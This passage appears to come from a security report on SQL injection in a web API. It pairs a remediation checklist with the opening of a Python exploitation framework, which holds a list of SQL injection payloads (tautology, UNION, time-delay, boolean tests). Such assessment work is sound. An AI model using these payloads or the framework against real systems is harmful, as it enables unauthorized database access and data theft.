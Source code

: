 ## Remediation Checklist

### Immediate Actions (Critical)
- [ ] Replace all dynamic SQL with parameterized queries
- [ ] Implement input validation on all user inputs
- [ ] Remove database error details from API responses
- [ ] Apply principle of least privilege to database users
- [ ] Enable database query logging for monitoring

### Short-term Actions (High Priority)
- [ ] Implement Web Application Firewall (WAF)
- [ ] Add rate limiting to prevent automated attacks
- [ ] Set up security monitoring and alerting
- [ ] Conduct code review for all database interactions
- [ ] Implement automated security testing in CI/CD

### Long-term Actions (Medium Priority)
- [ ] Regular penetration testing
- [ ] Security awareness training for developers
- [ ] Implement database activity monitoring
- [ ] Regular security audits and assessments
- [ ] Establish incident response procedures

## Advanced Attack Scenarios

### Scenario 1: Multi-Stage Data Exfiltration

**Objective**: Complete database compromise through systematic exploitation

```python
#!/usr/bin/env python3
"""
Advanced SQL Injection Exploitation Framework
Demonstrates complete database compromise methodology
"""

import requests
import time
import string
import json
from urllib.parse import quote

class SQLInjectionExploiter:
    def __init__(self, base_url, token):
        self.base_url = base_url
        self.token = token
        self.headers = {
            'Authorization': f'Bearer {token}',
            'Content-Type': 'application/json'
        }
        self.session = requests.Session()
        self.session.headers.update(self.headers)
    
    def test_injection(self):
        """Test for basic SQL injection vulnerability"""
        payloads = [
            "' OR '1'='1",
            "' UNION SELECT 1--",
            "'; WAITFOR DELAY '00:00:05'--",
            "' AND 1=1--",
            "' AND 1=2--"
        ]
```